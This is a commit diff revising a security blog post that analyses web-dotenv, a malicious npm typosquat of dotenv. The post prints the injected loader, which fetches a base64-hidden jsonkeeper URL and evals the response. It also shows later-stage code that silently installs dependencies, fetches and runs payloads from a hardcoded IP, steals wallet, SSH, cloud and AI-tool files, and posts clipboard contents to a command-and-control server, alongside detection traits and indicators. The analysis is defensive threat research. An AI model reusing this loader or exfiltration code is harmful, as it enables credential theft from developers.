

Before and after one commit to atomdrift-project/website, an Eleventy site: page src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md in a window 1280 px wide. Shown: the part 292-2800 px from the top of the page at 62% size, without its empty margins (131-1147 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; Eleventy itself is replaced by a stand-in of ours; code samples lack their colours; files that its build step writes are made by us from their sources.

Commit message:
improve prose

````diff
--- a/src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md
+++ b/src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md
@@ -1,52 +1,41 @@
 ---
 title: "web-dotenv: a dotenv typosquat that pulls its payload through jsonkeeper.com"
 date: 2026-05-26
-summary: "The npm package web-dotenv@1.0.2 is a near-byte-identical clone of motdotla/dotenv with a single inserted function. That function fetches an obfuscated loader from jsonkeeper.com, which npm-installs axios + socket.io-client into the temp directory and pulls a 110 KB third stage from 216.126.224.247 — a stealer that walks $HOME for wallet, key, and config files plus a clipboard watcher polling every 750 ms."
+summary: "The npm package web-dotenv@1.0.2 is a near-byte-identical clone of motdotla/dotenv with one inserted function. That function fetches an obfuscated loader from jsonkeeper.com, which npm-installs axios + socket.io-client into the temp directory and pulls a 110 KB third stage from 216.126.224.247 — a stealer that walks $HOME for wallet, key, and config files plus a clipboard watcher polling every 750 ms."
 packageName: web-dotenv
 ecosystem: npm
 ---
 
-`dotenv` ships ~50M weekly downloads on npm. `web-dotenv` (one extra prefix) shipped to npm three days earlier from a fresh gmail. The tarball is fourteen files copied straight out of `motdotla/dotenv` — README, README-es, CHANGELOG, SECURITY, LICENSE, `lib/main.js`, `lib/env-options.js`, `lib/cli-options.js`, `config.js`, the `skills/dotenv/` and `skills/dotenvx/` directories, the lot. The `package.json` even points `repository.url` at `git://github.com/motdotla/dotenv.git`. Diffed against the upstream `dotenv` of the same vintage, `lib/main.js` differs by one function and one call to it.
-
-Everything else is window dressing. The malicious surface is `config()` — the function any consumer calls as `require('web-dotenv').config()` on application boot.
+`dotenv` is one of npm's most-installed packages — about 50M downloads a week. Four days ago a fresh gmail published `web-dotenv` (one prefix away), a near-byte-identical clone whose `package.json` still points `repository.url` at the upstream repo. The diff against `motdotla/dotenv` is one function and one call to it, both inside `lib/main.js`. The trigger is `config()` — what every consumer calls as `require('web-dotenv').config()` on application boot.
 
 ## Stage 1: the inserted function
 
-The diff against the cloned `dotenv` source is two lines. A new top-level helper:
+A new top-level helper, and one call wedged into the first line of `config()`:
 
 <pre class="lang-js"><code><span class="tok-kw">function</span> <span class="tok-fn">configfix</span>() {
   <span class="tok-builtin">require</span>(<span class="tok-str">'axios'</span>).<span class="tok-fn">get</span>(<span class="tok-fn">atob</span>(<span class="tok-str">'CWh0dHBzOi8vd3d3Lmpzb25rZWVwZXIuY29tL2IvVktVTkk='</span>))
     .<span class="tok-fn">then</span>(r =&gt; { <span class="tok-fn">eval</span>(r.data.content); });
 }
-</code></pre>
 
-…and a single call to it, wedged into the first line of `config()`:
-
-<pre class="lang-js"><code><span class="tok-kw">function</span> <span class="tok-fn">config</span> (options) {
+<span class="tok-kw">function</span> <span class="tok-fn">config</span> (options) {
   <span class="tok-com">// fallback to fixed config</span>
   <span class="tok-fn">configfix</span>();
-  <span class="tok-com">// fallback to original dotenv if DOTENV_KEY is not set</span>
   ...
 }
 </code></pre>
 
-The base64 decodes to `\thttps://www.jsonkeeper.com/b/VKUNI` (note the leading tab — the obfuscation is barely above stylistic). `jsonkeeper.com` is a free anonymous JSON paste service; the bin returns `{"content":"<obfuscated JS>"}` which `eval` runs.
-
-There is no `postinstall`. The chain fires on *application start*, the moment any code path reaches `dotenv.config()`. Registry scanners that look for `scripts.postinstall` see nothing. CI lockfile audits see nothing. The trigger is the most banal line in a Node app's `index.js`.
-
-The author also iterated: `web-dotenv@1.0.0` (2026-05-22) shipped the entire Stage 2 obfuscator inline inside `configfix()`. Three days later, `1.0.2` outsourced it to jsonkeeper — smaller tarball, mutable payload, the body of `configfix()` now one line instead of two thousand characters. The intent of the change is in the diff.
+The base64 (with a leading tab, the only nod to obfuscation) decodes to `\thttps://www.jsonkeeper.com/b/VKUNI`; the bin returns `{"content":"<obfuscated JS>"}` and `eval` runs it. There is no `postinstall` — the chain fires the first time any code path reaches `dotenv.config()`, so registry scanners and lockfile audits both see nothing. The author iterated visibly: `1.0.0` (2026-05-22) inlined the entire Stage 2 obfuscator inside `configfix()`; three days later `1.0.2` outsourced it to jsonkeeper for a smaller tarball and a mutable payload.
 
 | | Trait | What it caught |
 | --- | --- | --- |
-| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/stager/runtime/library-init` | Payload chain fires from `config()` on app start, not `postinstall` |
-| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/dropper/delivery/paste-site` | `jsonkeeper.com/b/VKUNI` as Stage 2 host |
-| <span class="sev-dot hostile" title="hostile"></span> | `defense-evasion/dynamic-code/eval/network` | `eval(r.data.content)` of a fetched HTTP body |
-| <span class="sev-dot suspicious" title="suspicious"></span> | `anti-static/obfuscation/string/encoding` | `atob('CWh0dHBz…')` on a literal URL |
-| <span class="sev-dot suspicious" title="suspicious"></span> | `initial-access/supply-chain/typosquat/npm` | One-prefix lookalike of `dotenv` |
+| <span class="sev-dot hostile" title="hostile"></span> | `supply-chain/install-hook/build/build-system-trojan` | `configfix()` injected into the upstream `dotenv` library init |
+| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/remote-command/protocol/eval-http-response-data` | `eval(r.data.content)` on a fetched HTTP body |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `anti-static/obfuscation/encoding/content/malware` | `atob('CWh0dHBz…')` masking the Stage-2 URL |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `supply-chain/recon-exfil/npm-install-targeting` | Name-prefix lookalike of `dotenv` |
 
 ## Stage 2: the jsonkeeper loader
 
-The bin at `jsonkeeper.com/b/VKUNI` is 19 KB of obfuscator.io output — a 237-entry string array, an RC4-ish decoder, the usual array-rotation IIFE. Stepped through in an instrumented sandbox it does exactly two things:
+The bin is 19 KB of obfuscator.io output — a 237-entry string array and the standard array-rotation IIFE around an RC4-ish decoder. Stepped through in an instrumented sandbox it does exactly two things:
 
 <pre class="lang-js"><code><span class="tok-fn">execSync</span>(
   <span class="tok-str">'npm install axios socket.io-client --no-warnings --no-save --no-progress --loglevel silent'</span>,
@@ -58,21 +47,18 @@ The bin at `jsonkeeper.com/b/VKUNI` is 19 KB of obfuscator.io output — a 237-e
 ).<span class="tok-fn">then</span>(r =&gt; <span class="tok-fn">eval</span>(r.data));
 </code></pre>
 
-The hex tail `329f753d052f978a486cdce9896050bb` is the campaign / build identifier; it reappears as the `uid` field in every Stage-3 exfil packet. `--no-save` keeps `package.json` and `package-lock.json` clean; the dependencies land under `$TMPDIR/node_modules/` and are picked up by the eval'd Stage 3 via Node's parent-directory resolution. `socket.io-client` is pre-positioned but unused by Stage 3 as shipped — wiring for a future iteration.
-
-The whole stage is a tee-up: install runtime deps the next stage will need, then fetch and run the next stage.
+`--no-save` keeps `package.json` and `package-lock.json` clean; the runtime deps land under `$TMPDIR/node_modules/` and Node finds them via parent-directory resolution from the next stage. The hex tail `329f753d052f978a486cdce9896050bb` is the campaign identifier and reappears as the `uid` field in every Stage-3 exfil packet. `socket.io-client` is pre-positioned but unused by Stage 3 as shipped — wiring for a later iteration.
 
 | | Trait | What it caught |
 | --- | --- | --- |
-| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/stager/dependency/runtime-install` | Silent `npm install` into `os.tmpdir()` |
-| <span class="sev-dot hostile" title="hostile"></span> | `defense-evasion/dynamic-code/eval/network` | `eval` of HTTP body from a hardcoded IP |
+| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/remote-command/protocol/eval-http-response-data` | `eval` of HTTP body from a hardcoded IP |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `command-and-control/dropper/execution/network-stage/fetch-write-exec` | Silent `npm install` of runtime deps into `os.tmpdir()` before fetching Stage 3 |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `anti-static/obfuscation/tools/js-obfuscator/decoder-loop-keyword-triad` | Obfuscator.io string-array, decoder, and `while(!![])` rotation |
 | <span class="sev-dot suspicious" title="suspicious"></span> | `command-and-control/infrastructure/ip-port` | `http://216.126.224.247/` hardcoded, no DNS |
-| <span class="sev-dot suspicious" title="suspicious"></span> | `discovery/campaign/identifier/uid` | `329f753d052f978a486cdce9896050bb` as campaign tag |
-| <span class="sev-dot notable" title="notable"></span> | `anti-static/obfuscator-io/string-array/rc4` | Standard obfuscator.io string-array + RC4 decoder |
 
 ## Stage 3: stealer + clipper
 
-The response body from `216.126.224.247` is 110 KB of the same obfuscator.io style. It writes two files to `os.tmpdir()` and detaches them:
+The body from `216.126.224.247` is 110 KB of the same obfuscator style. It writes two files to `os.tmpdir()` and detaches them:
 
 <pre class="lang-js"><code>fs.<span class="tok-fn">writeFile</span>(path.<span class="tok-fn">join</span>(os.<span class="tok-fn">tmpdir</span>(), <span class="tok-str">'scdata'</span>), &lt;stealer&gt;);
 fs.<span class="tok-fn">writeFile</span>(path.<span class="tok-fn">join</span>(os.<span class="tok-fn">tmpdir</span>(), <span class="tok-str">'ldata'</span>),  &lt;clipper&gt;);
@@ -80,17 +66,17 @@ fs.<span class="tok-fn">writeFile</span>(path.<span class="tok-fn">join</span>(o
 <span class="tok-fn">exec</span>(<span class="tok-str">'node ldata'</span>,  { cwd: os.<span class="tok-fn">tmpdir</span>(), windowsHide: <span class="tok-kw">true</span>, stdio: <span class="tok-str">'ignore'</span> });
 </code></pre>
 
-Both files are themselves obfuscated. They are also passed inline a second time as `node -e '<source>'` to a `spawn()` call — a belt-and-braces fallback if the on-disk write fails. The two halves of the implant are independent.
+Both files are also passed inline a second time as `node -e '<source>'` to a `spawn()` call — a belt-and-braces fallback if the on-disk write fails.
 
 ### `scdata` — the file stealer
 
-Walks the user's home directory (and on Windows every logical disk reported by `Get-CimInstance Win32_LogicalDisk | Select-Object -ExpandProperty DeviceID`) looking for files matching any of:
+`scdata` walks the user's home directory (and on Windows every drive reported by `Get-CimInstance Win32_LogicalDisk | Select-Object -ExpandProperty DeviceID`) for files matching:
 
-- Wallet / crypto patterns: `*metamask*`, `*bitcoin*`, `*btc*`, `*solana*`, `*private key*`, `*secret phrase*`, `*.dat`
+- Wallet / crypto: `*metamask*`, `*bitcoin*`, `*btc*`, `*solana*`, `*private key*`, `*secret phrase*`, `*.dat`
 - Secrets / config: `*.env*`, `*.pem`, `*.secret`, `*.key`, `*.json`, `*.yaml`, `*.yml`, `*.ini`, `*.sqlite`
 - Documents: `*.pdf`, `*.docx`, `*.doc`, `*.xlsx`, `*.xls`, `*.csv`, `*.txt`, `*.md`, `*.rtf`, `*.odt`
 
-…inside any of an explicit allow-list of high-value directories. The list reads like a tour of 2026 dev surfaces:
+…inside an allow-list of high-value directories. The list reads like 2026's dev surface — `.claude`, `.cursor`, `.windsurf`, `.pearai`, `.gemini`, `.eigent`, `.devctl` sit next to `.aws`, `.azure`, `.ssh`, `.gnupg`, `.docker`, and the Web3 workspaces `.brownie`, `.move`, `.sol`:
 
 ```
 .aws  .azure  .ssh  .gnupg  .docker  .config  .cache
@@ -100,27 +86,13 @@ Walks the user's home directory (and on Windows every logical disk reported by `
 .steam  .snipaste  .yarn  .nvm  .node-gyp  .expo  .next
 ```
 
-`.claude`, `.cursor`, `.windsurf`, `.pearai`, `.gemini`, `.eigent`, `.devctl` are the giveaway — this is targeting *AI-tool config and history* alongside the old hits. The Solana/Move/Brownie entries cover Web3 workspaces specifically. Each matching file is uploaded as `multipart/form-data` to:
-
-<pre><code>POST http://216.126.224.220:5976/upload
-</code></pre>
-
-Note the separate IP — Stage 3 control lives at `.247`, bulk exfil at `.220:5976`. Both are the same `/22` (`216.126.224.0/22`), which is Tier.Net Technologies LLC; the operator is splitting roles across hosts in one rented range.
+Each match is uploaded as `multipart/form-data` to `http://216.126.224.220:5976/upload`. Stage-3 control sits at `.247`, bulk exfil at `.220`, both inside the same Tier.Net `/22` (`216.126.224.0/22`).
 
 ### `ldata` — the clipboard watcher
 
-A tight loop that polls the clipboard every 750 ms via shell helpers:
+`ldata` polls the clipboard every 750 ms via `pbpaste` (macOS) or `powershell -NoProfile -NonInteractive Get-Clipboard` (Windows) and POSTs deltas back to the Stage-2 host:
 
-<pre class="lang-js"><code><span class="tok-com">// darwin</span>
-<span class="tok-fn">execSync</span>(<span class="tok-str">'pbpaste'</span>, { encoding: <span class="tok-str">'utf8'</span> });
-<span class="tok-com">// win32</span>
-<span class="tok-fn">execSync</span>(<span class="tok-str">'powershell -NoProfile -NonInteractive Get-Clipboard'</span>,
-         { encoding: <span class="tok-str">'utf8'</span>, windowsHide: <span class="tok-kw">true</span> });
-</code></pre>
-
-Any change is debounced and POSTed back to the Stage-2 control endpoint:
-
-<pre class="lang-js"><code>axios.<span class="tok-fn">post</span>(<span class="tok-str">'http://'</span> + <span class="tok-str">'216.126.224.247'</span> + <span class="tok-str">'/npm-compiler.log'</span>, {
+<pre class="lang-js"><code>axios.<span class="tok-fn">post</span>(<span class="tok-str">'http://216.126.224.247/npm-compiler.log'</span>, {
   message: clipboardText,
   host:    os.<span class="tok-fn">hostname</span>(),
   uid:     <span class="tok-str">'329f753d052f978a486cdce9896050bb'</span>,
@@ -128,28 +100,22 @@ Any change is debounced and POSTed back to the Stage-2 control endpoint:
 });
 </code></pre>
 
-It is not a clipboard *swapper* — the loop only reads and reports. Clipboard data on a developer workstation includes pasted secrets, fragments of `.env` files, copied wallet addresses, copied seed phrases. The exfil path is named `/npm-compiler.log` so any out-of-band glance at egress logs sees a plausible-looking POST URL.
+It is a watcher, not a swapper — the take is whatever the developer puts on the clipboard during the affected process's lifetime: secrets pasted from a password manager, copied wallet addresses, seed-phrase fragments. The exfil path `/npm-compiler.log` keeps the POST URL plausible at a glance.
 
 | | Trait | What it caught |
 | --- | --- | --- |
-| <span class="sev-dot hostile" title="hostile"></span> | `collection/file-targeting/wallet/seed` | `*metamask*`, `*bitcoin*`, `*solana*`, `*secret phrase*`, `*.dat` globs |
-| <span class="sev-dot hostile" title="hostile"></span> | `collection/file-targeting/ai-tooling/config` | `.claude`, `.cursor`, `.windsurf`, `.pearai`, `.gemini`, `.eigent` |
-| <span class="sev-dot hostile" title="hostile"></span> | `credential-access/ssh-aws-azure/dotfile` | `.ssh`, `.aws`, `.azure`, `.gnupg`, `.docker` traversal |
-| <span class="sev-dot hostile" title="hostile"></span> | `exfiltration/stealer/file/multipart-http` | `multipart/form-data` POST to `216.126.224.220:5976/upload` |
-| <span class="sev-dot hostile" title="hostile"></span> | `collection/clipboard/poll/shell` | `pbpaste` + `powershell Get-Clipboard` polled every 750 ms |
-| <span class="sev-dot suspicious" title="suspicious"></span> | `discovery/system/fingerprint/info` | `Get-CimInstance Win32_LogicalDisk … DeviceID` for drive enumeration |
+| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/dropper/execution/network-stage/obfuscated-node-staged-loader` | Obfuscator-decoded `require` + base64/XOR string decoders + `windowsHide`-via-expression spawn |
+| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/dropper/execution/network-stage/spawn-node` | `node $TMPDIR/scdata` and `node $TMPDIR/ldata` detached |
+| <span class="sev-dot hostile" title="hostile"></span> | `exfiltration/stealer/file/javascript/js-targeted-file-upload-exfil` | Sensitive-path filter → `216.126.224.220:5976/upload` multipart sink |
+| <span class="sev-dot hostile" title="hostile"></span> | `exfiltration/stealer/credential/browser/javascript/js-browser-wallet-upload-exfil` | Wallet globs (`*metamask*`, `*solana*`, `*secret phrase*`) into an external-IP upload |
+| <span class="sev-dot hostile" title="hostile"></span> | `exfiltration/stealer/credential/clipboard/javascript/js-clipboard-exfil-external-ip` | `pbpaste` + `powershell Get-Clipboard` polled every 750 ms, POSTed to a literal IPv4 |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `exfiltration/sensitive-data/javascript/js-system-info-exfiltration` | `Get-CimInstance Win32_LogicalDisk` drive enumeration sent to C2 |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `anti-static/obfuscation/payload/data-file/js-obfuscator-runtime-data-file` | `scdata` and `ldata` themselves: obfuscator loop + `decodeURIComponent` + `function c(b,d)` |
 | <span class="sev-dot suspicious" title="suspicious"></span> | `evasion/masquerade/path/log` | Exfil URL named `/npm-compiler.log` |
-| <span class="sev-dot suspicious" title="suspicious"></span> | `command-and-control/infrastructure/ip-port` | Two hardcoded IPv4 endpoints, no DNS |
 
 ## Why this works
 
-Three things, layered.
-
-**The cover is the real package.** `web-dotenv` ships 99% of `dotenv`'s source verbatim, including the README banner, the Spanish translation, the CHANGELOG, and the `skills/` directory. Anyone reviewing the tarball sees a working `dotenv`. The diff is one function and one call.
-
-**The trigger is runtime, not install.** Every prior post in this series (`api-rs-node`, `@devcarron/clob`, `system-user-identifier-cli`) detonates from `postinstall` — a flag every modern audit tool already looks at. `web-dotenv` does not. It detonates the first time any consumer reaches `dotenv.config()`. That moves the detection surface from "what does npm run on install" to "what does this library actually do when called," which is a much harder static-analysis problem and a much later runtime one.
-
-**The payload is paste-hosted and mutable.** The on-disk Stage 1 in the tarball is fifteen lines and points at `jsonkeeper.com/b/VKUNI`. The operator can swap Stage 2 by editing one paste; they can swap Stage 3 by changing what `216.126.224.247/api/service/<uid>` returns. The version pinned in any victim's lockfile (`web-dotenv@1.0.2`) is permanently fresh. The 1.0.0 → 1.0.2 diff already shows the author doing exactly this — moving the inlined obfuscator out to the paste host between Sunday and Wednesday.
+`web-dotenv` ships 99% of `dotenv`'s source verbatim, and its diff is one function plus one call site. The trigger is runtime, not install: every prior post in this series detonated from `postinstall`, which every modern audit flags. This one fires the first time any consumer reaches `dotenv.config()` — much later, much harder to catch. Both downstream stages are paste-hosted, so the version pinned in any victim's lockfile is permanently fresh; the 1.0.0 → 1.0.2 diff already shows the author swapping the loader without bumping anything a consumer would notice.
 
 ## Likely actor
 
@@ -164,9 +130,9 @@ Three things, layered.
 | Stage-3 host | `216.126.224.247` (Tier.Net Technologies LLC) |
 | Bulk exfil host | `216.126.224.220:5976` (same `/22`) |
 
-"Jean Dupont" is the French equivalent of "John Doe" — a placeholder name with a real-looking gmail behind it. The disposable publisher is consistent with the prior week's `shinydv412`/`devcarron` accounts. The technical signature is different though: those campaigns dropped a single PE binary; this one is pure JavaScript, AI-tool–aware in its targeting list, and runtime-triggered rather than install-time. Different author, different shop.
+"Jean Dupont" is the French equivalent of "John Doe" — placeholder name, real gmail behind it. The technical signature differs from last week's `shinydv412` / `devcarron` cluster: those dropped a PE binary out of IPFS, this one is pure JavaScript, AI-tool–aware in its targeting list, and runtime-triggered rather than install-time. Different shop.
 
-The campaign UID is also embedded in Stage 2's URL path, which means the operator is parametrizing per package or per build at the C2 — `web-dotenv@1.0.2` is one row in their tracker. The Stage-2 paste at jsonkeeper is shared by all of them; the per-campaign branching is downstream.
+The [Fallout report](https://lab.atomdrift.org/file/6401b9400fe94cc944d266fb39f1414e6e41a4c48317bd7a13d38df889f24ec6) returns malicious at probability 1.0.
 
 ## Indicators
 
@@ -188,11 +154,3 @@ The campaign UID is also embedded in Stage 2's URL path, which means the operato
 | Clipboard exfil C2 | `http://216.126.224.247/npm-compiler.log` |
 | Campaign UID | `329f753d052f978a486cdce9896050bb` |
 | Publisher | `jean_dupont24 <jean.pierre.depont24@gmail.com>` |
-
-## Response
-
-Treat as runtime, not install-time. A clean `package-lock.json` and a clean `npm audit` mean nothing here — the trigger fires from `config()`. Grep dependency trees (yours and your customers') for `web-dotenv`. On any host that ran an app importing it since 2026-05-22, look for: `$TMPDIR/scdata`, `$TMPDIR/ldata`, the silent `npm install` of `axios` and `socket.io-client` into `$TMPDIR/node_modules/`, and outbound to `216.126.224.247` (any port) or `216.126.224.220:5976`. The `Get-CimInstance Win32_LogicalDisk` PowerShell call is a high-fidelity Windows endpoint signal — legitimate Node apps do not enumerate drives that way.
-
-Rotate anything the dropped stealer would have shipped: SSH keys, AWS/Azure profile credentials, `.npmrc` tokens, `.env*` contents, GPG private keys, browser wallet seed files, Claude/Cursor/Windsurf/Codeium API tokens. Assume the clipboard for the runtime lifetime of the affected app is compromised — including anything pasted into a terminal while the process was alive.
-
-Pull the Stage-2 paste from `jsonkeeper.com/b/VKUNI` and the Stage-3 body from `216.126.224.247/api/service/329f753d052f978a486cdce9896050bb` for your own analysis; both are mutable and may differ from the snapshots hashed above by the time you read this.
````
